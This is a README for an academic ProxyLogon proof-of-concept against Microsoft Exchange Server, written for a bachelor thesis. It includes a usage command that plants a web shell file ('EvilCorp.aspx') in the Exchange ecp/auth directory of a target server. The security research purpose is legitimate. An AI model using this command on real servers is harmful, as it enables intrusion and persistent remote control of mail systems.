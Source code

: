 # ProxyLogon Vulnerability Proof-of-Concept (POC)
<b>Note</b>: This project is only for educational and security testing purposes. Do not use this POC for malicious or unauthorized activities.

# Overview
This project demonstrates a proof-of-concept (POC) for the ProxyLogon vulnerability in Microsoft Exchange Server. ProxyLogon is a critical security flaw identified in early 2021 and affects specific versions of Microsoft Exchange Server. This POC is intended for security researchers and system administrators to understand and mitigate the vulnerability.

This project is a part of my bachelor thesis at FIT CTU University. The thesis focuses on Proxylogon attacks, and this POC is integral to the research. The thesis, written in the Czech language, can be found [here](https://dspace.cvut.cz/handle/10467/101794).

# Usage
Example usage:
```
python3 main.py -t https://10.0.0.10 \
-e MegaCorpAdmin@megacorp.local \
-l "C:\\Program Files\\Microsoft\\Exchange
Server\\V15\\FrontEnd\\HttpProxy\\ecp\\auth\\EvilCorp.aspx" \
-x http://127.0.0.1:8080 \
-r "/ecp/auth/EvilCorp.aspx" \
-s EvilCorp
```
![expl_pycharm_console_dark](https://github.com/GabTux/Proxylogon_POC/assets/24779546/13fb2625-5557-472e-b8fe-7559dcefd617)
